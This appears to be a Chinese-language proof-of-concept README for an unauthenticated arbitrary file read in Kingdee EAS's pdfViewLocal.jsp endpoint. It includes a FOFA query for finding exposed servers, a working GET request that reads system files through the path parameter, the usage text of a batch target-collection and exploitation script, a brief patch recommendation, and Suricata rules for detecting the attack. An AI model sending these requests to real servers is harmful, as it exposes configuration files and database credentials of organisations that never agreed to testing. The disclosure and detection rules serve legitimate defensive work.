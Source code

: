 ### 产品简介  
金蝶EAS 为集团型企业提供功能全面、性能稳定、扩展性强的数字化平台，帮助企业链接外部产业链上下游，实现信息共享、风险共担，优化生态圈资源配置，构筑产业生态的护城河，同时打通企业内部价值链的数据链条，实现数据不落地，管理无断点，支撑“横向到边”财务业务的一体化协同和“纵向到底”集团战略的一体化管控，帮助企业强化核心竞争力。  

### 漏洞概述  
金蝶EAS pdfviewlocal接口处存在任意文件读取漏洞，未经身份验证的攻击者可通过该漏洞读取系统重要文件（如数据库配置文件、系统配置文件）、数据库配置文件等等，导致网站处于极度不安全状态。  

### 指纹识别  
fofa: app="Kingdee-EAS"  

### 漏洞利用  
```
poc:
GET /plt_document/fragments/content/pdfViewLocal.jsp?path=C:/Windows/win.ini HTTP/1.1
Host: your_ip
Accept-Encoding: gzip
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_3) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/12.0.3 Safari/605.1.15
```
![Image text](https://github.com/YUUKI4O4/POC/blob/main/Kingdee_EAS_pdfviewlocal_arbitrary_file_read_vulnerability/1.png)  
![Image text](https://github.com/YUUKI4O4/POC/blob/main/Kingdee_EAS_pdfviewlocal_arbitrary_file_read_vulnerability/2.png)  

### 测试和利用脚本  
```
python3 Kingdee_EAS_pdfviewlocal_arbitrary_file_read_vulnerability.py -h                     
usage: Kingdee_EAS_pdfviewlocal_arbitrary_file_read_vulnerability.py [-h] [-t] [-r FILE] [-u URL]

### Kingdee EAS pdfviewlocal arbitrary file read vulnerability. ###

options:
  -h, --help            show this help message and exit
  -t, --target_collection
                        Perform target collection
  -r FILE, --multi_objective_testing FILE
                        Perform multi-objective testing. e.g:python
                        Kingdee_EAS_pdfviewlocal_arbitrary_file_read_vulnerability.py -r ./url.txt
  -u URL, --single_objective_testing URL
                        Perform single-objective testing. e.g:python
                        Kingdee_EAS_pdfviewlocal_arbitrary_file_read_vulnerability.py -u http://xxx.xxx.xxx
```

### 修复建议  
1.联系相关软件厂商更新至最新安全版本。  

### Suricata rules  
```
alert http any any -> any any (msg:"Kingdee EAS pdfviewlocal arbitrary file read vulnerability."; flow:established,to_server; flowbits:set,Kingdee_EAS_pdfviewlocal_arbitrary_file_read_vulnerability;  content:"get";http_method;nocase; content:"/plt_document/fragments/content/pdfViewLocal.jsp";http_uri;fast_pattern;nocase; content:"path=";http_uri;nocase;distance:0; reference:url,https://github.com/YUUKI4O4/POC/tree/main/Kingdee_EAS_pdfviewlocal_arbitrary_file_read_vulnerability; classtype:web-attck; metadata:created_at 2024-1-12,updated_at 2024-1-12,creater:YUUKI4O4; sid:10; rev:1;)
alert http any any -> any any (msg:"Kingdee EAS pdfviewlocal arbitrary file read vulnerability success."; flow:established,from_server; flowbits:isset,Kingdee_EAS_pdfviewlocal_arbitrary_file_read_vulnerability; content:"200";http_stat_code; content:"Content-Disposition: inline\; filename=";nocase;http_header; reference:url,https://github.com/YUUKI4O4/POC/tree/main/Kingdee_EAS_pdfviewlocal_arbitrary_file_read_vulnerability; classtype:web-attck; metadata:created_at 2024-1-12,updated_at 2024-1-12,creater:YUUKI4O4; sid:11; rev:1;)
```
